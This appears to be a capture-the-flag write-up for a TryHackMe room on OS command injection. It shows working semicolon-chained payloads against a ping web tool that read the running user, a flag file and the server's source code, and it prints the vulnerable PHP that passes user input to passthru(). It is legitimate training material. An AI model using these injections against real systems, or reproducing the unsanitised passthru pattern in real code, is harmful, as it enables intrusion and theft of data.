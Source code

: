 # oscommandinjection

### https://tryhackme.com/room/oscommandinjection
### Hein Andre Grønnestad
### 2021-10-10

---

## Task 5

We have access to the following web interface:

![](/01-screenshot.png "")

This web tool can be used to ping an IP address. Let's try it:

![](02-screenshot.png "")

After waiting for the `ping`-command to finish, we get the following results back:

```
Here is your command: 127.0.0.1

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.030 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.028 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3061ms rtt min/avg/max/mdev = 0.015/0.025/0.030/0.006 ms
```

### Task 5 - What user is this application running as?

We need to try and execute the `whoami`-command through the web interface to see which user the web application is running as.

Let's start by guessing that the server side code looks something like this:

```php
echo system("ping $user_input");
```

So when we enter `127.0.0.1` it will look like this:

```php
echo system("ping 127.0.0.1");
```

We can only change the part that comes after `ping `.

The simplest thing would be to try to add an extra command to the input.

Let's try the follwing payload where we add another command by adding a `;` followed by a second command:

```
127.0.0.1;whoami
```

This is what we receive back. Notice the `{whoami_output}` at the end of the output:

```
Here is your command: 127.0.0.1;whoami

Output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.029 ms 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.030 ms --- 127.0.0.1 ping statistics --- 4 packets transmitted, 4 received, 0% packet loss, time 3080ms rtt min/avg/max/mdev = 0.016/0.028/0.038/0.007 ms {whoami_output}
```

If we ommit the ip address we don't even have to wait for the `ping`-command to finish.

Payload:
```
;whoami
```

Output:
```
Here is your command: ;whoami

Output:

{whoami_output}
```

### Task 5 - What are the contents of the flag located in /home/tryhackme/flag.txt?

Payload:
```
;cat /home/tryhackme/flag.txt
```

Output:
```
Here is your command: ;cat /home/tryhackme/flag.txt

Output:

THM{**************************}
```

## Extra Credit

### Exfiltrate Web App Code

Payload:
```
;ls
```

Output:
```
Here is your command: ;ls

Output:

css img index.php js test.php
```

Payload:
```
;cat index.php
```

Output Screenshot:

![](03-screenshot.png "")

We can see the HTML-page renderen in the browser, but with the PHP-variables visible.

"View Page Source" gives us the following:

Output:
```php
// ... HTML template removed
<?php
if (isset($_GET["address"])) {
    $command = $_GET["address"];
    echo "<p><b>Here is your command: </b>$command</p>";

    echo "<p><b>Output: </b>$result</p>";

    $result = passthru("/bin/ping -c 4 ".$_GET["address"]);
}
?>
```

We can clearly see the vulnerable code:
```php
$result = passthru("/bin/ping -c 4 ".$_GET["address"]);
```


### Reverse Shell
We could probably get a reverse shell from the server as well.
